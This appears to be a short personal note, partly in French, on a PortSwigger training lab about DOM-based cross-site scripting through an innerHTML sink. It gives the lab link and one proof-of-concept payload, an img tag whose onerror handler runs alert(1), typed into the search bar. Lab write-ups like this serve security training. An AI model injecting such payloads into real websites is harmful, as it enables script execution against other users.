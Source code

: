 # Lab

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink

## Payload

Dans la searchbar `<img src="x" onerror="alert(1);">`